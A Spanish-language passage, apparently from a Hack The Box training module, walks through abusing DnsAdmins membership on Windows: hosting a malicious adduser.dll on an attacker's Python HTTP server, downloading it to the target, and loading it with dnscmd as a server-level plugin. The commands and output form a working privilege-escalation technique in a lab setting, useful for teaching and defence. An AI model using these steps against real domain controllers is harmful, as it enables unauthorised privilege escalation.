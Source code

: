 A continuación, inicie un servidor Python HTTP.

  Dnsadmins

```shell-session
xnoxos@htb[/htb]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

#### Descargar el archivo al objetivo

Descargue el archivo al objetivo.

  Dnsadmins

```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Primero veamos qué sucede si usamos el`dnscmd`utilidad para cargar una DLL personalizada con un usuario no privilegiado.

#### Carga de DLL como usuario no privilegiado

  Dnsadmins

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

Como se esperaba, intentar ejecutar este comando como un usuario normal no es exitoso. Solo miembros del`DnsAdmins`El grupo puede hacer esto.

#### Carga de DLL como miembro de DNSADmins

  Dnsadmins

```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

#### Cargando DLL personalizado

Después de confirmar la membresía del grupo en el`DnsAdmins`Grupo, podemos volver a ejecutar el comando para cargar una DLL personalizada.
